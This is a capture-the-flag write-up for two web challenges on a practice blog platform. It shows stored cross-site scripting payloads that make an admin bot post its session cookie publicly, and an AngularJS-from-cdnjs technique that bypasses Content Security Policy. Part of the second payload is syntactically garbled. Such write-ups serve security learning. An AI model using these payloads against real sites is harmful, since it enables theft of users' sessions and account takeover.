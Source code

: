 # Blogpost
by Halogen
> Jaga created an internal social media platform for the company, can you leak anyone's information?
## Solution
First step, look through the code. This is where we observe `bot.js`, a curious little thing that will be the downfall of Jaga's social media platform. This script basically logs in as admin, sets the flag as a cookie and then visit our blog. How wonderful, sounds like a Cross Site Scripting attack (XSS).

Looking around `index.js` we see their Content Source Policy (CSP), dictating the source of their code.
```js
res.setHeader(
  'Content-Security-Policy',
  "default-src 'self'; script-src 'self' 'unsafe-inline' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
);
```
Very intriguing, espectially that `unsafe-inline` portion. This means we can inline scripts `<script>alert("maybe maybe not");</script>` as such and it would run too. But where can we place such malicious scripts...🤔What about as a blog post (the very name of the challenge!)?
Lo and behold, it works!
![](./assets/blogpost_alert.png)
So from here, we just simply set up a webhook and have our script make a request to it with the cookies as the body. The webhook will pick up the request, and see the flag cookie in the body. Ez right... except not really. The CSP above disables us from sending requests to other websites (`default-src: self`) and only allows requests to self. What do we do?

A hard thonking later, we realised that if we can post blogs, so can the admin! So we can make the admin post the cookies! Going to `templates/post.html` we see that posting a blog is just a post request. So our final blog to post is as below
```html
Title: Anything you want
Body:
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "/post", true);
xhr.setRequestHeader("Content-Type", "application/json");
var data = JSON.stringify({
	"content": "Wtv",
	"title": document.cookie	
})
xhr.send(data);
</script>
```

And boom, the admin makes a post unwillingly with his flag for all to see.
![](./assets/blogpost1.png)
Flag: `STF22{s1mpl3_p0st_xSs_:)}`

# Blogpost 2 (Buffing Blogpost)
by Halogen
> Look out for my blog posts, again!!
## Solution
Relooking through the code, we see the exact code again, line for line. However, there is one small change. Their CSP is set to `'unsafe-eval'` instead of `'unsafe-inline'`. This is problamatic, since our script injection doesn't work anymore 😢.

However, there is still the word 'unsafe' in it, so we found [Google's CSP checker](https://csp-evaluator.withgoogle.com/) and checked their CSP. It seems that including "https://cdnjs.cloudflare.com" has a severe vulnerability where you can include Angular Libraries to bypass CSP. So let's try that!
![](./assets/blogpost_csp.png)
We follow [Hacktricks CSP Bypass Tutorial](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) to perform our XSS. First, we include the angular library in the title, and then inject a funny Angular Constructor into a div. This gives us access to the website's eval function, which will eval anything including our script.

<u>Payload</u>
```html
Title: Anything you want
Body:
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "/post", true);
xhr.setRequestHeader("Content-Type", "application/json");
var data = JSON.stringify({
	"title": "<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>",
	"content": <div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>
})
xhr.send(data);
</script>
```

And wow, it runs and we get an alert on visiting our blog. Now we just simply replace `alert(1)` with our code from above and the admin gives us the flag yet again in the form of a post.
![](./assets/blogpost2.png)

flag: `STF22{cl0uDfl4r3!!_@nd_@ngu1ar_ar3_de_b35+}`
